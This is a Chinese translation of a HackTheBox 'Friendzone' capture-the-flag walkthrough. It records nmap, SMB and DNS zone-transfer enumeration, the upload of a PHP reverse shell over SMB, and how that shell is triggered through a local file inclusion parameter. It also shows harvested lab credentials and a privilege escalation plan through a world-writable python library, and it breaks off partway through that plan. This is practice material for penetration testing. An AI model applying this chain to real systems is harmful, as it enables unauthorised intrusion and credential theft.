# 黑客盒子——友谊地带

> 原文：<https://infosecwriteups.com/hackthebox-friendzone-9c52df249dcd?source=collection_archive---------0----------------------->

这是一篇关于我如何从 HacktheBox 中解决框 Friendzone 的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

正如我一直做的那样，我试图解释我是如何从机器上理解这里的概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。非常欢迎您的指正。


来源:hackthebox.eu

# 关于盒子

这个盒子很有趣，但同时也很棒。这是我解决的早期箱子之一。它利用适当的枚举，然后你应该能够连接这些点。

# #TLDR

```
Initial foothold: DNS enumeration leads to a login page, where credentials to be used are found thru SMB
User: LFI of the file upload from SMB
Root: DLL Hijacking of a regularly running file importing a world-writeable library
```

# #最初的立足点

像往常一样，我运行 Nmap 扫描，并将其保存到我的 Nmap 目录中:

```
nmap -sV -sC -oA nmap/initial 10.10.10.123
```

输出是:

```
Nmap scan report for 10.10.10.123
Host is up (0.29s latency).
Not shown: 993 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
|   http/1.1
<redacted>
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernelHost script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2019-03-06T09:13:45+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-03-05 23:13:43
|_  start_date: N/AService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
# Nmap done at Tue Mar  5 23:45:44 2019 -- 1 IP address (1 host up) scanned in 1972.54 seconds
```

所以开放端口是 21、22、53、80、139、443、445。

访问端口 80 时，我看到了这个页面:


它谈到了离开这个区域和一个联系电子邮件。我试着进入 friendzoneportal.red 但是我认为它没有关联。英雄联盟

由于 FTP 也是开放的，我尝试是否可以匿名登录，使用匿名作为用户名和基本上任何密码。

```
➜  writeup ftp 10.10.10.123
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:root): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp>
```

不允许匿名登录，所以我继续使用 SMB 枚举。我使用 smbclient 来列出股份:

```
smbclient -L 10.10.10.123
```



文件共享后，突出的是/etc/文件。这对以后很重要。然后，我试图访问共享文件，但访问被拒绝。我用 smbmap 看权限。这就是 smbmap 的好处。



看到我能读和写的地方，我在共享中寻找有用的文件。



我能够从通用共享中检索到一个 creds.txt 文件。然后，我还尝试在我们有写权限的共享(开发共享)上上传文件。


打开 creds.txt:

```
➜  writeup cat creds.txt 
creds for the admin THING:admin:WORKWORKHhallelujah@#
```

我尝试使用凭证访问 FTP 和 SMB 服务，但它不起作用。

```
➜  writeup ftp 10.10.10.123
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:root): admin
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
```

因为我们不知道在哪里可以使用凭证，所以我转到 HTTP。从 nmap 结果来看，站点的 commonName 是 friendzone.red，而不是 friendzoneportal.red。另外，我还看到了创建证书以访问 HTTPS 中的信息。然后，我将 friendzone.red 添加到我的/etc/hosts 文件中。



```
10.10.10.123    friendzone.red
```

转到端口 80 显示相同的页面:


另一个开放端口是 53，这是 DNS。现在大部分人都知道 53 端口只有 DNS UDP，不知道还有 TCP。

DNS TCP 用于区域传输，或者当响应大小超过 512 字节限制时使用。在这里阅读更多关于 RFC 的信息:【https://tools.ietf.org/html/rfc7766[。](https://tools.ietf.org/html/rfc7766)

然后，我尝试使用带有 axfr(用于区域转移)标志的 dig 进行区域转移，从 DNS 服务器 10.10.10.123 查询 friendzone.red(因为 HTB 机器的 DNS 服务器与它们的 IP 相同):

```
➜  writeup dig axfr friendzone.red [@10](http://twitter.com/10).10.10.123; <<>> DiG 9.11.5-P4-5.1-Debian <<>> axfr friendzone.red [@10](http://twitter.com/10).10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
```

由于它的工作，我们现在可以看到子域。既然我们列举了其他子域，我们应该将它们添加到/etc/hosts 文件中:

```
10.10.10.123    friendzone.red administrator1.friendzone.red \ hr.friendzone.red uploads.friendzone.red
```

转到 hr.friendzone.red:


转到 uploads.friendzone.red(注意我们得到的是 https，而不是来自 hr 子域的 http):



我试着上传一个文本文件，成功了。至少我知道有两种方法可以上传文件(通过这个页面和 SMB)，但我不知道它们存储在哪里。



转到 administrator1.friendzone.red，我们看到一个登录页面:



我使用了凭证，并且成功了:

```
admin:WORKWORKHhallelujah@#
```



# 获取用户:

该页面告诉我们，我们正在处理一个初学者 php 开发人员。



我只是按照所说的访问图片**a.jpg**和页面**名称时间戳**



注意，我们在左下角得到一个“最终访问时间戳是”。它是不断变化的，我检查了它的纪元时间，它使用 1970 年 1 月 1 日作为参考。这意味着 web 服务器上有一个脚本在做这件事。

由于命名约定是“ **letter.jpg”，**我试着检查是否有一个名为 b.jpg 的文件:


有。我按 CTRL + u 查看源代码:



我看到它们存储在 images 文件夹中，并且只有两张图片(a 和 b)。我试着访问 z.jpg，看看它会有什么反应:



因为有一个错误，我通过尝试读取 etc/passwd 来测试这是否容易受到 LFI(本地文件包含)的攻击。我没有输出:



在尝试识别 LFI 的方法后，我想起我们可以通过 SMB 上传文件，文件共享位置是/etc/Files。所以直观上，可能所有的共享都遵循/etc/sharename 格式。我试着从 pentest monkey 上传 php 反向 shell，因为 web 服务器运行在 php 上。

```
➜  writeup smbclient \\\\10.10.10.123\\Development                                                                                    
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> put rev.php 
putting file rev.php as \rev.php (8.3 kb/s) (average 8.3 kb/s)
smb: \> dir
  .                                   D        0  Sat Jul 13 01:36:59 2019
  ..                                  D        0  Wed Jan 23 21:51:02 2019
  rev.php                             A     5492  Sat Jul 13 01:37:46 2019
  test                                A        7  Sat Jul 13 00:39:02 20199221460 blocks of size 1024\. 6458420 blocks available
```

能够上传文件，我试图通过 LFI 触发它。在无数次尝试之后，LFI 在哪里，我终于得到了我的听众的回电。看起来时间戳函数是一个 php 文件。我的 LFI 的 php 扩展触发了回调。

所以对于 LFI 来说，它应该是:

```
pagename=/etc/Development/rev
```



获取反向外壳:



修复我们的外壳后(有大量的参考资料，你也可以参考我的 HTB-混沌文章)。

我检查了文件，一个 mysql_data.conf 脱颖而出:

```
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user frienddb_user=**friend**db_pass=**Agpyu12!0.213$**db_name=FZ
```

我们找到用户朋友的凭证。由于我在 FTP 中没有工作凭证，所以我在那里尝试了一下，结果成功了:

```
➜  writeup ftp 10.10.10.123
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:root): friend
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--r--r--    1 0        0              33 Oct 06  2018 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (388.2719 kB/s)
ftp> exit
221 Goodbye.
➜  writeup cat user.txt 
**a9ed20acecd6c5b6b52f474e15ae9a11**
```

我知道有 user.txt .检查 php 文件，验证我的推测:



login.php



dashboard.php



timestamp.php

检查更多文件:

```
www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cd html
www-data@FriendZone:/var/www/html$ ls
fz.jpg  index.bak  index.html  robots.txt  wordpress
www-data@FriendZone:/var/www/html$ cat robots.txt 
seriously ?!
www-data@FriendZone:/var/www/html$ cd wordpress/
www-data@FriendZone:/var/www/html/wordpress$ ls
www-data@FriendZone:/var/www/html/wordpress$ ls -al
total 8
drwxr-xr-x 2 root root 4096 Oct  5  2018 .
drwxr-xr-x 3 root root 4096 Oct  6  2018 ..
www-data@FriendZone:/var/www/html/wordpress$ cd ..
www-data@FriendZone:/var/www/html$ ls
fz.jpg  index.bak  index.html  robots.txt  wordpress
www-data@FriendZone:/var/www/html$ cat index.html 
<title>Friend Zone Escape software</title><center><h2>Have you ever been friendzoned ?</h2></center><center></center><center><h2>if yes, try to get out of this zone ;)</h2></center><center><h2>Call us at : +999999999</h2></center><center><h2>Email us at: info@friendzoneportal.red</h2></center>
```

找不到任何有用的东西。我检查 etc/passwd。



转到用户朋友的主目录，我们可以将 user.txt 读作 www-data:



所以有 2 种方法可以检索 user.txt，我尝试了同样的凭证(朋友:Agpyu12！0.213$)到 ssh:

```
➜  writeup ssh -l friend 10.10.10.123
friend@10.10.10.123's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)* Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$
```

# 获取根目录:

我首先运行一个查找 SUID 文件的 find 命令，将 stderror 重定向到/dev/null，因为有许多文件不是 SUID 文件(为了避免您的终端出现大量错误):

```
**find / -perm -4000 2>/dev/null**
```

输出中没有什么有趣的东西:

```
/bin/fusermount                                                                                                                                                               
/bin/umount                                                                                                                                                                   
/bin/mount                                                                                                                                                                    
/bin/su                                                                                                                                                                       
/bin/ntfs-3g                                                                                                                                                                  
/bin/ping                                                                                                                                                                     
/usr/bin/passwd                                                                                                                                                               
/usr/bin/traceroute6.iputils                                                                                                                                                  
/usr/bin/newgrp                                                                                                                                                               
/usr/bin/sudo                                                                                                                                                                 
/usr/bin/gpasswd                                                                                                                                                              
/usr/bin/chsh                                                                                                                                                                 
/usr/bin/chfn                                                                                                                                                                 
/usr/sbin/exim4                                                                                                                                                               
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                                   
/usr/lib/eject/dmcrypt-get-device                                                                                                                                             
/usr/lib/openssh/ssh-keysign
```

没什么特别的。我检查任何人都可以写的目录，将错误重定向到/dev/null:

```
**find / -perm -222 -type d 2>/dev/null**
```

我通过 SMB(/etc/Development)和/usr/lib/python2.7 找到了我们上传 shell 的位置:

```
/etc/sambafiles
/etc/Development
/var/spool/samba
/var/tmp
/var/lib/php/sessions
/tmp
/tmp/.Test-unix
/tmp/.ICE-unix
/tmp/.font-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/run/lock
/usr/lib/python2.7
/dev/mqueue
/dev/shm
```

我查看了目录/usr/lib/python2.7 并检查了感兴趣的文件，发现 os.py 拥有 777 权限，并且以 **ROOT** 身份运行:



我还运行了 [pspy](https://github.com/DominicBreuker/pspy) ，它在 CTFs/HTB 机器上非常有用，它是一个命令行工具，设计用来窥探进程，不需要 root 权限。它允许您查看其他用户运行的命令、cron 作业等。当他们执行的时候。让它运行，我看到 reporter.py 每隔一段时间执行一次:



server_admin 目录非常突出，因为我可以从那里读取文件，所以我读取了 reporter.py:

```
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/pythonimport osto_address = "[admin1@friendzone.com](mailto:admin1@friendzone.com)"
